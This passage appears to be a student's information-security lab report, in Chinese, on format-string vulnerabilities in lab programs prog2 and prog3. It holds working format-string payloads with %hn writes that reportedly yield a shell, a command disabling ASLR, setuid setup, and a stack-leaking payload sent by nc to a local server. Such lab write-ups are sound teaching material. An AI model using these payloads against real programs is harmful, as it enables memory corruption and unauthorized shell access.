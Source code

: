 ​		4da0h - 148 = 19724

​		582bh - 4da0h = 2699

​		b7dah - 582bh = 24495

​		b7ech - b7dah = 18

​		则构造的输入为：

```shell
echo -e "\xac\xff\xff\xbf@@@@\xb4\xff\xff\xbf@@@@\xae\xff\xff\xbf@@@@\xb6\xff\xff\xbf%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.19724x%hn%.2699x%hn%.24495x%hn%.18x%hn" > badfile
./prog2
```

​		成功获取到shell

![李欣宇-信安1901-U201911658-lab12349](%E4%BF%A1%E5%AE%89%E5%AE%9E%E9%AA%8C.assets/%E6%9D%8E%E6%AC%A3%E5%AE%87-%E4%BF%A1%E5%AE%891901-U201911658-lab12349.png)

###### 设置steuid root

```shell
sudo chown root prog2
sudo chmod u+s prog2
```

<img src="%E4%BF%A1%E5%AE%89%E5%AE%9E%E9%AA%8C.assets/ed4febcdfcf367220f2f8935119dada.png" alt="ed4febcdfcf367220f2f8935119dada" style="zoom:60%;" />

​		不能获得root shell

![李欣宇-信安1901-U201911658-lab12411](%E4%BF%A1%E5%AE%89%E5%AE%9E%E9%AA%8C.assets/%E6%9D%8E%E6%AC%A3%E5%AE%87-%E4%BF%A1%E5%AE%891901-U201911658-lab12411.png)

#### 1.3.3 实验内容3 prog3

> （1） 打印栈上数据；
>
> （2） 获得 heap 上的 secret 变量的值；
>
> （3） 修改 target 变量成 0xc0ffee00
>
> （4） 上述步骤在首先在关闭ASLR的情况下进行，进一步，可尝试开启 ASLR，观察程序内存地址的变化

######  环境配置

​		关闭ASLRsudo sysctl -w kernel.randomize_va_space=0

​		修改MakeFile后make

###### 打印栈上数据

```shell
echo "AAAA|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x" > badfile 
cat badfile | nc 127.0.0.1 9090
./server#另开一个终端
```

